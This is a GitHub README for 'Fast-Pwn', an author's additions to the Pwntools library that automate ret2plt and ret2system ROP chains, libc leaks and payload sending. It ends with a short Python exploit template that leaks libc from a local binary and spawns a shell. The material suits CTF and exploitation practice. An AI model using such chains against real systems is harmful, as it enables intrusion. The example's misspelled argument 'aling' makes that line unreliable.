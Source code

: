 # Fast-Pwn
Some code I have added to my local Pwntools to speed up things.

# Changes Made
### Added Code to -

[pwnlib/rop/rop.py](pwnlib/rop/rop.py) - Added 2 functions [ret2plt and ret2system](https://github.com/Hellsender01/Fast-Pwn/blob/1fadadbb1982e717f0c9328367f2481f14d299f8/pwnlib/rop/rop.py#L1551-L1561) \
[pwnlib/elf/elf.py](pwnlib/elf/elf.py) - Added 2 functions [section_addr and find_bin_sh](https://github.com/Hellsender01/Fast-Pwn/blob/1fadadbb1982e717f0c9328367f2481f14d299f8/pwnlib/elf/elf.py#L1547-L1570), Edited [libc function](https://github.com/Hellsender01/Fast-Pwn/blob/1fadadbb1982e717f0c9328367f2481f14d299f8/pwnlib/elf/elf.py#L716-L723) \
[pwnlib/tubes/tube.py](pwnlib/tubes/tube.py) - Added 2 functions [sendpayload](https://github.com/Hellsender01/Fast-Pwn/blob/1fadadbb1982e717f0c9328367f2481f14d299f8/pwnlib/tubes/tube.py#L863-L872) and [recv_libc_leak](https://github.com/Hellsender01/Fast-Pwn/blob/1fadadbb1982e717f0c9328367f2481f14d299f8/pwnlib/tubes/tube.py#L753-L763)

### Created New File

[pwnlib/rop/ret2system.py](pwnlib/rop/ret2system.py) \
[pwnlib/rop/ret2plt.py](pwnlib/rop/ret2plt.py)

# Summary 

- ret2system() - creates a return to system rop chain, accepts two arguments align and bin_sh
- ret2plt() - creates a return to plt rop chain, accepts two arguments leak and ret
- recv_libc_leak() - receive 6 bytes on amd64 and 4 bytes on i386, then unpack tye address and substract the offset and return libc base address, accepts one argument offset
- sendpayload() - accepts 2 arguments offset and payload and send flat{offset:payload}
- find_bin_sh() - return /bin/sh address 
- section_addr() - return the address of section like(.bss,.data), accepts 2 arguments name and offset

### Quick Fixes -

- libc() - I like to use elf.libc but it is broken so i fixed it but still works only on 64 bit, requirement - `pip3 install pylddwrap`

# Example - 

```python
from pwn import *

elf = context.binary = ELF("vuln")
rop = ROP(elf)
libc = elf.libc
offset = 136

io = process()
io.clean()

rop.ret2plt(leak=elf.got.puts, ret=elf.sym.main)
io.sendpayload(offset=offset, payload=rop.chain())

io.recvline()
libc.address = io.recv_libc_leak(offset=libc.sym.puts)

rop1 = ROP(libc)
rop1.ret2system(aling=True)
io.sendpayload(offset=offset, payload=rop1.chain())
io.interactive()
```

